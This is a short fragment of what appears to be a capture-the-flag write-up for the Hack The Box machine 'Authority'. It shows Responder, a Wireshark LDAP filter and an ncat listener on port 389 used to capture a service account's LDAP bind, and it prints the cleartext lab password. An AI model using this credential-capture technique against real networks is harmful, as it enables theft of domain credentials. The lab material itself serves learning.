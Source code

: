 ```python
❯ sudo responder -I tun0
```

![20240308170848.png](20240308170848.png)

#### Wireshark

```python
tcp.port == 389
```

![20240308172820.png](20240308172820.png)

#### ncat

```python
❯ ncat -lnvp 389
```

![20240308172941.png](20240308172941.png)

```python
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```
